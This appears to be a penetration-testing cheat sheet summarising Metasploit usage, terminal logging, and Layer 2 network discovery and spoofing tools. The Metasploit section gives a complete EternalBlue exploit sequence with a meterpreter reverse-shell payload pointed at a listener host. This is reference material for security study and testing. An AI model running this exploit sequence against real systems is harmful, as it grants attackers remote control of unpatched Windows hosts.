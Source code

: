 ## 🧨 Exploitation Tools

### 🎯 `Metasploit`
- Framework for exploit development and testing.
- Start: `sudo msfconsole`
- Workflow:
  1. `search ms17_010`
  2. `use exploit/windows/smb/ms17_010_eternalblue`
  3. Set options: `set RHOST`, `set PAYLOAD`, `run`

### 🔥 Example Module:
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.0.101
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.0.1
run
```

---

## 🧾 Logging & Documentation

### 📝 `script`
- Records all terminal activity to a file.
- Example: `script -a mylog.txt`

### 📁 Best Practice
- Create one folder per tool.
- Log commands, outputs, screenshots.
- Store CVE links, command results, tool versions, etc.


---

## 🧠 Additional Notes and Enhancements

### 🔎 Layer 2 Discovery Tools (Expanded)

- **netdiscover**: A tool for passive or active network discovery based on ARP requests. Helps to identify live hosts without generating a lot of noise.
- **wireshark**: A GUI-based network protocol analyzer that captures and visualizes packet-level data. Extremely useful for investigating protocols like ARP, DHCP, ICMP, HTTP, etc.
- **tshark**: CLI version of Wireshark. Supports similar filtering and capturing capabilities. Ideal for scripting and remote sessions.
- **tcpdump**: A powerful CLI sniffer and packet analyzer. Use `tcpdump -ni eth0 arp or icmp` to capture Layer 2 ARP and ICMP packets for network discovery or troubleshooting.
- **snort**: A signature-based IDS that can also operate in packet sniffing mode. Use for detecting malicious activity or scanning attempts.
- **arping**: Sends ARP packets directly to a target to determine if it is alive. Works at Layer 2 and is more accurate when ICMP is blocked.
- **hping3**: A TCP/IP packet assembler that supports ICMP, TCP, UDP, and RAW-IP modes. Can be used to craft custom ping packets or simulate attacks.
- **ipcalc**: Helps calculate subnet information like network range, broadcast address, and host capacity. Often used in planning or validation of network configurations.
- **netstat -nr**: Displays the routing table, showing gateway IPs and interface routes.
- **arp -an**: Shows the current ARP cache. Useful to detect potential ARP spoofing or monitor host activity.
- **arp-scan**: A fast and reliable way to scan for live devices using ARP at Layer 2. Use `arp-scan 192.168.0.0/24` to list hosts.
- **macchanger**: Allows users to spoof MAC addresses to test network filters or anonymize presence.